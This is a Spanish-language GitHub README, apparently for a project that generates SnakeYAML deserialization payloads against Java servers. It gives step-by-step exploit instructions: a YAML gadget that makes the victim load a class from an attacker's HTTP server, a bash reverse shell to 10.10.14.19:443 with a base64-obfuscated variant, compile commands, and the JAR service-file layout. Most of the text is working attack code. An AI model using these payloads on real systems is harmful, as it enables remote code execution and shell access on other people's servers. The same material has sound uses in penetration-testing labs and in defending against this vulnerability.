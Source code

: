 # yaml-parser-payload

Payload para ejecutar una reverse shell en un servidor yaml en java.

Esto lo pondremos en el servidor victima para que nos ejecute nuestro payload  con nuestra r_shell.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://my_python_server/"]
  ]]
]
(https://github.com/aquilino/yaml-parser-payload/raw/main/img/parser_web.jpg)
```
En nuestra terminal compartiremos un server con python para que se conecte nuestra victima hacia nosotros asi cargar el payload.
```bash
sudo python3 -m hhtp.server 80
```
Editaremos nuestro archivo AwesomeScriptEngineFactory.java
y añadiremos nuestra reverse_shell en bash pero codificado en base64 lo codificaremos en esta pagina.
```reverse
bash -i >& /dev/tcp/10.10.14.19/443 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}
```
in this page encode reverse shell  in base64 http://www.jackson-t.ca/runtime-exec-payloads.html

lo compilamos :
necesitaremos jdk instalado ojo!!!!

------bash console or cmd -----
```bash
javac AwesomeScriptEngineFactory.java
```
Nos generara el archivo 'AwesomeScriptEngineFactory.class'. y lo introduciremos en la carpeta h1dr0.

La estructura del Payload tiene que ser asi para que el servidor haga la peticion y encuetre el archivo. 
```tree
 exploit /
  |-->      META-INF/services/javax.script.ScriptEngineFactory dentro de este archivo escribir esto -> h1dr0.AwesomeScriptEngineFactory/
  |-->      h1dr0/AwesomeScriptEngineFactory.class
```




A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

thanks @marshalsec.


